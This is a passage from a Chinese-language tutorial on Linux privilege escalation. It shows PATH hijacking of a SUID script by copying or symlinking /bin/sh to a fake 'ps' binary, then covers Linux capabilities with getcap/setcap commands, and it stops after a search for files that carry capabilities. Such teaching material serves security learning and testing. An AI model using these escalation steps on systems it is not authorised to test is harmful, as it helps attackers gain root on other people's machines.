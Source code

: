 通过echo法进行提权，而shell2因为缺少uid的设置无法提权(仅当前测试环境)，除了使用echo方法，还有

cp法

```shell
cd /home/uu2fu3o/script/
cp /bin/sh /tmp/ps
echo $PATH
export PATH=/tmp:$PATH
./shell
whoami
```

软连接法

```shell
ln -s /bin/sh ps
export PATH=.:$PATH
./shell
id
whoami
```

注意如果目录具有完全权限，它将成功工作。在 Ubuntu 中，我们在软链接的情况下授予了 /script 目录 777 的权限

该方法的利用其实也是suid，利用具有suid权限的脚本，自定义当前用户的环境变量来达到提权的目的

#### Capabilities提权

Linux 2.2以后增加了capabilities的概念，可以理解为水平权限的分离。以往如果需要某个程序的某个功能需要特权，我们就只能使用root来执行或者给其增加SUID权限，一旦这样，我们等于赋予了这个程序所有的特权，这是不满足权限最小化的要求的，在引入capabilities后，root的权限被分隔成很多子权限，这就避免了滥用特权的问题

https://man7.org/linux/man-pages/man7/capabilities.7.html中有对权限分类的详细介绍

关于机制：在进行特权操作时，如果euid不是root,就会检查进程是否有对应的capabilities，并根据结果是否执行对应的操作，

capabilities细分到线程，每个线程可以有不同的capabilities，除了对线程的capabilities有相关功能外，还对具有对文件的附加属性进行设置，使得文件具有一定的capabilities，但是需要注意的是

```
文件cap_setuid的capabilities和文件的suid标志位之间是没有关系的：
设置了cap_setuid的capability的文件并没有设置suid。
设置了suid的程序也不拥有cap_setuid的capability。
```

关于详细的介绍和理解可以看这篇文章https://www.cnblogs.com/f-carey/p/16026088.html#tid-5fzNyS。这里仅介绍一些基本命令以及如何使用该属性进行提权

```
getcap /bin/ping #获取ping命令的capabilities
setcap cap_net_raw,cap_net_admin=eip /bin/ping  #添加capabilities
setcap -r /bin/ping #删除文件的capabilities
```

**利用capabilities实现权限提升**

查找设置了capabilities的可执行文件

```sehll
getcap -r / 2>/dev/null
```

